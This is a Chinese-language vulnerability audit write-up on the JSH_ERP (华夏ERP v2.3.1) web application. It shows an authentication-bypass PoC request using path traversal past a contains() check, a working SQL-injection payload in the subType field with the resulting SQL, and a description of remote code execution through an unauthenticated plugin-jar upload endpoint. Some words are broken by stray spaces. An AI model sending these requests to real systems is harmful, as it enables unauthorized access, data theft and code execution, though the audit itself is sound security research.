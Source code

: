 前言
--

代码路径

```php
https://gitee.com/jishenghua/JSH_ERP
```

软件版本

```php
华夏ERP_v2.3.1
```

源码审计的流程都是一样，从外部输入点开始跟踪数据流，判断数据处理过程中是否存在一些常见的漏洞模式，比如外部数据直接拼接到SQL语句，就导致了SQL注入漏洞。

对于Web应用来说常见外部数据入口有

- Filter
- 处理Url请求的Controller

查找这些入口的方式有很多，比如查看系统配置文件（web.x ml），查看对应注解，或者先抓包找到想看的请求，然后根据字符串来进行定位。

找到入口后就是跟踪数据流，着重关注权限检查、数据过滤、以及平时积累的漏洞模式（XXE、SQL注入等）

认证绕过
----

系统存在一个 fliter，在 `LogCostFilter` 里面会检查 `session` 来判断用户是否登录，如果没有登录就会让他重定向到 `login.html` ，与漏洞相关代码如下

```php

@WebFilter(filterName = "LogCostFilter", urlPatterns = {"/*"},
        initParams = {@WebInitParam(name = "ignoredUrl", value = ".css#.js#.jpg#.png#.gif#.ico"),
                      @WebInitParam(name = "filterPath",
                              value = "/user/login#/user/registerUser#/v2/api-docs")})
public class LogCostFilter implements Filter {

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest servletRequest = (HttpServletRequest) request;
        HttpServletResponse servletResponse = (HttpServletResponse) response;
        String requestUrl = servletRequest.getRequestURI();
        //具体，比如：处理若用户未登录，则跳转到登录页
        O bject userInfo = servletRequest.getSession().getAttribute("user");
        if(userInfo!=null) { //如果已登录，不阻止
            chain.doFilter(request, response);
            return;
        }
        if (requestUrl != null &amp;amp;&amp;amp; (requestUrl.contains("/doc.html") ||
            requestUrl.contains("/register.html") || requestUrl.contains("/login.html"))) {
            chain.doFilter(request, response);
            return;
        }
```

首先通过 getRequestURI 获取到请求 url，然后判断 session 中是否存在 user 属性，如果不为null，就表示已经登录了直接放行，否则会对 requestUrl 进行判断，如果包含 login.html、doc.html、register.html就表示不需要登录直接放行，但是这里使用的是 contains 方法，只要字符串里面带这些字符串即可通过校验

poc

```php
GET /depotHead/login.html/../list?search=aaa&amp;amp;currentPage=1&amp;amp;pageSize=10&amp;amp;t=1618229175662 HTTP/1.1
Host: 192.168.245.1:9978
Accept: application/json, text/j avas cript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
X-Requested-With: x mlHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

使用上面请求即可访问到 `/depotHead/list` 对于的 `controller`.

sql注入
-----

payload

```php
GET /depotHead/login.html/../list?search=%7B%22type%22%3A%22%E5%85%B6%E5%AE%83%22%2C%22subType%22%3A%22%E9%87%87%E8%B4%AD%E8%AE%A2%E5%8D%95'%20or%20''%3D'%22%2C%22roleType%22%3A%22%E5%85%A8%E9%83%A8%E6%95%B0%E6%8D%AE%22%2C%22status%22%3A%22%22%2C%22number%22%3A%22%22%2C%22beginTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22materialParam%22%3A%2222222222222222%22%2C%22depotIds%22%3A%22%22%7D&amp;amp;currentPage=1&amp;amp;pageSize=10&amp;amp;t=1618229175662 HTTP/1.1
Host: 192.168.245.1:9978
Accept: application/json, text/j avas cript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
X-Requested-With: x mlHttpRequest
Referer: http://192.168.245.1:9978/pages/bill/purchase_orders_list.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

处理函数时 `getDepotHeadList`

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-b589f6b4d94c850877e94c3c0ea284bd2ea20d7e.png)

可以看到 `subType` 里面有注入的数据，继续跟进

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-8eb66bbfb47b7effdeb674e14d6e0a521e82f4c5.png)

`selectByConditionDepotHead` 应该是 配置`mybatis` 时需要的方法，安装 `MyBatisCodeHelper-Pro` 插件后点击方法左边的logo即可跳转到对应的x ml配置文件

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-1f2fb9f4832201817b962b6237777b4c892a6a66.png)

可以看到配置文件使用 `$` 对用户数据进行拼接，导致`SQL`注入

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-05991131c508b2d14c57e8c15d3e2578f2c640f6.png)

在分析过程中可以在 `application.properties` 里面增加配置，让 `mybatis` 打印出会执行的 `sql` 语句

```php
logging.level.com.jsh.erp.datasource.mappers.*=debug
```

最后执行的 `sql` 语句如下

```php
Execute SQL：SELECT COUNT(1) FROM (SELECT DISTINCT dh.* FROM jsh_depot_head dh LEFT JOIN jsh_depot_item di ON dh.Id = di.header_id AND ifnull(di.delete_flag, '0') != '1' LEFT JOIN jsh_material m ON di.material_id = m.Id AND ifnull(m.delete_Flag, '0') != '1' WHERE 1 = 1 AND dh.type = '其它' AND dh.sub_type = '采购订单' OR '' = '' AND (m.name LIKE '%22222222222222%' OR m.standard LIKE '%22222222222222%' OR m.model LIKE '%22222222222222%') AND ifnull(dh.delete_Flag, '0') != '1') tb
```

可以看到 `sql` 语句被注入成了恒等，所以会把所有数据返回。

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-1037654282fe85309dfb3a0cda3469cfe5c00f42.png)

RCE
---

软件有一个"隐藏"的Controller

```php
    /**
     * 上传并安装插件。注意: 该操作只适用于生产环境
     * @param multipartFile 上传文件 multipartFile
     * @return 操作结果
     */
    @PostMapping("/uploadInstallPluginJar")
    public String install(@RequestParam("jarFile") MultipartFile multipartFile){
        try {
            if(pluginOperator.uploadPluginAndStart(multipartFile)){
                return "install success";
            } else {
                return "install failure";
            }
        } catch (Exception e) {
            e.printStackTrace();
            return "install failure : " + e.getMessage();
        }
    }
```

用户可以上传一个符合格式的`jar`包到这个接口，这里就会通过 `uploadPluginAndStart` 上传并安装插件，插件的格式可以参考下面链接

```php
https://gitee.com/starblues/springboot-plugin-f ramework-parent
```

需要额外注意的一点是，编译出来的demo插件，需要修改jar包的manifest文件，增加几个字段

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-694916f7ee4b32214536a48f51e6404345186923.png)

在 `DefinPlugin` 类里面增加恶意代码，当插件加载后就会执行。

![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-211653eb99e42f416b8eb39c25d172abfb921f03.png)

当前版本有一个限制，或者说该功能有bug，需要手动创建 `plugins` 目录（或者系统之前已经安装过插件）才能安装新插件到该目录。
